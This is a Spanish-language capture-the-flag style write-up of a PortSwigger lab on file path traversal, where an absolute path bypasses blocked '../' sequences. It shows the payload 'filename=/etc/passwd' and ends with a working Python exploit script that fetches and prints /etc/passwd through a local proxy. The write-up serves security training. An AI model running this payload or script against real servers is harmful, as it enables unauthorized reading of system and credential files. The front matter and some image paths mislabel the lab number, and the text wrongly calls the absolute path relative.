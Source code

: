 ```yaml
---
title: "02 File path traversal, traversal sequences blocked with absolute path bypass"
collection: publications
category: portswigger
permalink: publications/Directory Traversal/01_File path traversal, simple case
excerpt: 'Este laboratorio contiene una vulnerabilidad de recorrido de archivos en la visualización de imágenes de productos. La aplicación bloquea las secuencias transversales pero trata el nombre de archivo suministrado como relativo a un directorio de trabajo predeterminado.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'File path traversal, traversal sequences blocked with absolute path bypass'
---
```


![logo]({{site.url}}/images/Directory Traversal/directory-traversal-02/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Directory Traversal/directory-traversal-02/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, recuperamos el contenido del archivo `/etc/passwd`.

## Analisis

El laboratorio nos indica que la vulnerabilidad se encuentra en la visualización de imágenes de productos, vamos a probar alli.
En el endpoint `/image?filename=75.jpg `, tambien indica que las rutas se manejan desde la ruta `relativa`

![Conf1]({{site.url}}/images/Directory Traversal/directory-traversal-02/conf1.png)

Probamos regresandonos una carpetas e ingresar desde alli `../../../etc/passwd` y vemos que nos arroja error.

![Conf2]({{site.url}}/images/Directory Traversal/directory-traversal-01/conf2.png)

Ahora probamos quitando el `../` y vemos que si nos deja ingresar. Esto sucede porque esta usando la ruta relativa `/etc/passwd`.

![Conf3]({{site.url}}/images/Directory Traversal/directory-traversal-01/conf3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Directory Traversal/directory-traversal-01/aprobado.png)

# Codigo Python

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=/etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.come" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```